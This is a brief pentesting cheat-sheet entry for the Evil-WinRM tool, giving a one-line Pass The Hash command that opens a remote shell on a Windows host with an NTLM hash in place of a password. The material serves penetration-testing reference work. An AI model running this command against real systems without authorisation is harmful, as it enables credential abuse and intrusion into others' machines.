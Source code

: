 ```yaml
---
title: Evil-WinRM
desc: Windows Remote Management shell for pentesting. It's also used for Pass The Hash.
tags: [ActiveDirectory, Linux, PassTheHash, Windows]
alts: []
website: https://github.com/Hackplayers/evil-winrm
render_with_liquid: false
---
```


## Pass The Hash

```sh
# Specify hash instead of password
evil-winrm -i 10.0.0.1 -u admin -H 0e0363213e37b94221497260b0bcb4fc
```